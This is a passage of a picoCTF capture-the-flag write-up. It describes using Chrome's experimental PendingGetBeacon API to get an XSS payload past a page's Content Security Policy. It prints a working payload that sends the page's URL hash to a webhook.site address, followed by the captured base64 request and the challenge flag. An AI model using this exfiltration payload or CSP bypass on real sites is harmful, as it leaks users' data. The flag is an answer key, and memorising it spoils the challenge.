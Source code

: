 So desperately, so i checked the solution..., then thing i missed is: `--enable-experimental-web-platform-features`. AISHHHH! im done, its so tricky, there are a API in testing Chrome Feature that is **PendingBeacon** class, which has PendingGetBeacon() API supports JavaScript. Normally the testing feature is not affected by the CSP.
 
 [Here is the document](https://chromium.googlesource.com/chromium/src/+/refs/tags/107.0.5304.8/docs/experiments/page-unload-beacon.md)

I have tried another API but its seem not work with this time.

=> payload:  ``` http://localhost:8080/remoteCraft?recipe={"recipe":[["Exploit", "Web Design"]],"xss":"new PendingGetBeacon('https://webhook.site/09e19f10-a88e-405c-b6c1-4870e0c497d5/?e=' + window.location.hash.slice(1), {timeout: 1000});"}```


Then we got base64 request from webhook:
```https://webhook.site/09e19f10-a88e-405c-b6c1-4870e0c497d5/?e=eyJyZWNpcGUiOltbIkV4cGxvaXQiLCJXZWIgRGVzaWduIl1dLCJ4c3MiOiJuZXcgUGVuZGluZ0dldEJlYWNvbignaHR0cHM6Ly93ZWJob29rLnNpdGUvMDllMTlmMTAtYTg4ZS00MDVjLWI2YzEtNDg3MGUwYzQ5N2Q1Lz9lPScgKyB3aW5kb3cubG9jYXRpb24uaGFzaC5zbGljZSgxKSwge3RpbWVvdXQ6IDEwMDB9KTsiLCJmbGFnIjoicGljb0NURntsaXR0bGVfYWxjaGVteV93YXNfdGhlXzBnX2dhbWVfZG9lc19hbnlvbmVfcmVtZW1iM3JfOTg4OWZkNGF9IGJ0dyBjb250YWN0IG1lIG9uIGRpc2NvcmQgd2l0aCB1ciBzb2x1dGlvbiB0aGFua3MgQGVoaHRoaW5nXG4ifQ==```

{{< epigraph >}}
picoCTF{little_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a}
{{< /epigraph >}}